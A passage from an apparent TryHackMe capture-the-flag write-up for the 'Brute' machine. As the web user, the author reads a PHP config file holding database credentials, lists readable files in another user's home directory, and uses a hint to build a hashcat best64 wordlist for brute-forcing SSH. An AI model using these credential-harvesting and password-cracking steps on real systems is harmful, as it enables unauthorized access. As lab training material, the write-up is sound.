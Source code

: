 ```
drwxr-xr-x 3 root     root 4096 Oct 20  2021 ..
-rw-rw-r-- 1 www-data root  487 Oct 20  2021 config.php
-rw-rw-r-- 1 www-data root 4636 Oct 20  2021 index.php
-rw-rw-r-- 1 www-data root  223 Oct 20  2021 logout.php
-rw-rw-r-- 1 www-data root 1066 Nov 23  2021 welcome.php
```
The ```config.php``` contained credentials for user ```adrian```. 
```
www-data@brute:/var/www/html$ cat config.php
cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'adrian');
define('DB_PASSWORD', '[REDACTED]');
define('DB_NAME', 'website');
 
/* Attempt to connect to MySQL database */
$mysqli = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($mysqli === false){
    die("ERROR: Could not connect. " . $mysqli->connect_error);
}
?>
```
I logged into the instance of mysql on localhost but it didnt return anything valuable. Instead, I wanted to see what files I could read on the machine. 
```
www-data@brute:/var/www/html$ find /home/adrian -type f -readable 
find /home/adrian -type f -readable 
/home/adrian/.profile
/home/adrian/.bashrc
/home/adrian/.bash_logout
/home/adrian/.selected_editor
find: ‘/home/adrian/.cache’: Permission denied
/home/adrian/.sudo_as_admin_successful
/home/adrian/.reminder
```
The reminder file was interesting. 
```
www-data@brute:/var/www/html$ cat /home/adrian/.reminder
cat /home/adrian/.reminder
Rules:
best of 64
+ exclamation

ettubrute
```
With some pointers from the writeup in assistance, I used the best64 rule from hashcat to generate a wordlist to brute force ssh. I first created an input file containing words from the hint. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ cat brute_words.txt 
ettubrute
ettubrute!
```
Then, I ran hashcat using the best64 rule to set a new text file. 
```
hashcat --force brute_words.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64brutus.txt
```
The best64brutus.txt looked like various permutations and combinations of the input. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ cat best64brutus.txt 
ettubrute
```